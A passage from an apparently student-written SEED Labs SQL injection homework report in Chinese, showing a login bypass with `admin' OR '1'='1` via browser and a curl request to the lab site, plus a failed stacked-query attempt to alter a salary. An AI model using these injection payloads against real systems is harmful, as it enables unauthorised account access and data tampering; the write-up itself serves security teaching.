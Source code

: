   可见，用户需输入用户名`input_uname`和密码`input_pwd`，密码经过加密赋给`hashed_pwd`变量，然后从`credential`表中根据这两项搜索`id, name, eid, salary, birth, ssn等`并获取该用户信息，如果用户名是`admin`，则认证成功后获取到所有员工信息。

- 在不知道密码的情况下利用SQL注入攻击登录`admin`用户

  - **网页端实施攻击**

    在用户名和密码输入框都输入“ `admin' OR '1'='1` ”，则最后组装的SQL语句为 `$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,nickname, Password FROM credential WHERE name= ’admin' OR '1'='1’ and Password=’admin' OR '1'='1’";`因为‘1’=‘1’是一个永真式，所以上述SQL语句永远为真，攻击者可在不知密码的情况下成功登录，如图：

    ![image-20200512200434487](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-1-5.png)

    ![image-20200512200616528](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-1-6.png)

  - **命令行实施攻击**

    利用curl工具，执行如下指令：

    ```
    curl http://www.seedlabsqlinjection.com/unsafe_home.php?username=admin%27+OR+%271%27%3D%271&Password=admin%27+OR+%271%27%3D%271
    ```

    > “%27”：单引号“ ‘ ’”；
    >
    > “%3D”：等号“=”；

    执行后，从返回结果可知攻击成功，如图：

    ![image-20200512205721096](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-1-7.png)

    

- 添加一个新的SQL语句

  - 任务：在登录页面利用“；”插入一个新的SQL语句。这里我采用网页端的方式攻击。

  - 用户名输入：

    ```
    Alice';updata credential set Salary='20199320' where Name='Alice' #
    ```

  - 密码输入：

    ```
    1'='1
    ```

  - 执行后，出现如图错误：

    ![image-20200512211612390](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-1-8.png)

    SQL语句插入失败。

------

**（3）对 UPDATE 语句的攻击**
